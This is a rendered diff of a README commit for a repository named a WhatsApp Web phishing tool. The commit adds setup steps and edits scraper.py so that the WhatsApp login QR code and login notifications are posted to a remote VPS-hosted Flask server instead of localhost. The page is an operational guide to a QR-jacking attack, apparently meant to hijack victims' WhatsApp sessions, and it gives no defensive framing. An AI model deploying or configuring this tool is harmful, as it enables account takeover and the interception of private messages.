

Before and after one commit to levo-777/whats_app_web_phishing_tool, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -32,6 +32,7 @@ https://github.com/mozilla/geckodriver/releases
 
 Then, move it to the appropriate directory:
 
+    tar -xvzf geckodriver-v0.32.0-linux64.tar.gz
     sudo mv geckodriver /usr/local/bin/
     sudo chmod +x /usr/local/bin/geckodriver
 
@@ -54,6 +55,8 @@ Local Setup:**
 **Remote Setup:**
 
     First, run the Flask server on the remote machine.
+    python3 app.py
+
     In the remote/ folder, adjust the IP address and port in the following files to match the remote server's configuration:
         static/script.js:
 
@@ -63,17 +66,17 @@ Local Setup:**
       imageElement.setAttribute("src", url);
     });
 
-scraper.py:
+adjust on your local machine scraper.py:
 
     def notify_server_qr_code():
-        url = "http://localhost:5000/qr_code_updated"
+        url = "http://ip_address_of_remote_flask_server_running_on_vps:5000/qr_code_updated"
         response = requests.post(url)
 
     def notify_server_user_logged_in():
-      url = "http://localhost:5000/user_logged_in"
+      url = "http://ip_address_of_remote_flask_server_running_on_vps:5000/user_logged_in"
 
     def send_qr_code_to_server():
-      url = "http://localhost:5000/upload"
+      url = "http://ip_address_of_remote_flask_server_running_on_vps:5000/upload"
 
 After adjusting the IP address, run the scraper on your local machine:
 
```
